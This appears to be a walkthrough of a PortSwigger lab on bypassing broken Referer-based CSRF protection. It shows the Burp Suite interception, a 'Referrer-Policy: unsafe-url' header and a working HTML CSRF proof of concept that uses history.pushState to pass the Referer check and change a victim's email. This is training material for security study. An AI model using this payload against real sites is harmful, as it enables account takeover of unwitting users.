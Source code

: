 ## Welcome, my friend. Today we will start the [12. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-validation-of-referer-can-be-circumvented/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/5c11b51d-639d-423b-a4f6-f808d93db48d)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/c5e8140f-1921-45a7-904d-2c57fc3402ed)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/7f0eeda5-4aca-4e8e-9c28-74faa0a27f28)

#### Let's update email to ```0xT0R@gmail.com```:

![image](https://github.com/user-attachments/assets/163d3534-fe57-444c-8232-e43c586bc003)

#### We need do this task but through our victim by CSRF, we should intercept this request of update email by burp suite.

![image](https://github.com/user-attachments/assets/3b997135-0203-4670-b5a9-fe1d4c0512e0)

### Add ```Referrer-Policy``` header:

```
Referrer-Policy: unsafe-url
```

![image](https://github.com/user-attachments/assets/3741fb46-8cf8-4388-a5af-4c0e5558f403)


### this csrf PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
 <script>
history.pushState("", "", "/?0a450070038cd698804ae9b600bd0041.web-security-academy.net")
    </script>
    <form action="https://0a450070038cd698804ae9b600bd0041.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="haching&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
   
  </body>
</html>

```

![image](https://github.com/user-attachments/assets/824541f6-8169-4d75-b3d5-d031c47e9786)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/cb0eebf1-ffe1-4366-924b-707c447ca6a3" >
</p>

